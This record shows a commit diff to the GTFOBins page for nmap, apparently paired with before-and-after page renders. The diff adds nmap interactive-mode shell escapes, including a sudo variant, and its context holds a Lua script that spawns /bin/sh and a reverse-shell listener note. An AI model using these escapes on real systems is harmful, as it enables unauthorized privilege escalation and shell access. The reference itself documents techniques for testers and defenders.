

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add nmap interactive mode

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -6,6 +6,10 @@ functions:
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
         nmap --script=$TF
+    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
+      code: |
+        nmap --interactive
+        nmap> !sh
   non-interactive-reverse-shell:
     - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
       code: |
@@ -82,6 +86,10 @@ functions:
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
         sudo nmap --script=$TF
+    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
+      code: |
+        sudo nmap --interactive
+        nmap> !sh
   limited-suid:
     - description: Input echo is disabled.
       code: |
```
